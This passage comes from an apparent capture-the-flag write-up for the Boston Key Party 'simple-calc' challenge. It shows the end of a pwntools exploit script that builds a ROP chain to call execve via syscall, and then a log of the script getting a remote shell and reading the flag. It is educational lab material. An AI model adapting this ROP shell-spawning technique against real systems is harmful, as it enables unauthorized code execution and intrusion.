 # rdi = writable location
send64(p64(pop_rdi))
send64(p64(writable))

# rdx = 0x0
send64(p64(pop_rdx))
send64(p64(0x0))

# rsi = 0x0
send64(p64(pop_rsi))
send64(p64(0x0))

# rax = 0x3b
send64(p64(pop_rax))
send64(p64(0x3b))

# syscall
send64(p64(syscall))

######################################################
# Trigger overflow and get shell
######################################################

log.info("Triggering overflow")
p.sendline("5")
log.success("Got shell")
p.interactive()
{% endhighlight %}

Running the script against the remote server takes a few seconds and gives us a shell:

```
vagrant@pwnmachine:~/ctf/bkp/simple-calc$ ./exploit.py REMOTE=1
[+] Opening connection to simplecalc.bostonkey.party on port 5400: Done
[*] Filling stack
[*] Sending ROP chain
[*] Triggering overflow
[+] Got shell
[*] Switching to interactive mode
$ ls
key
run.sh
simpleCalc
simpleCalc_v2
socat_1.7.2.3-1_amd64.deb
$ cat key
BKPCTF{what_is_2015_minus_7547}
$
```
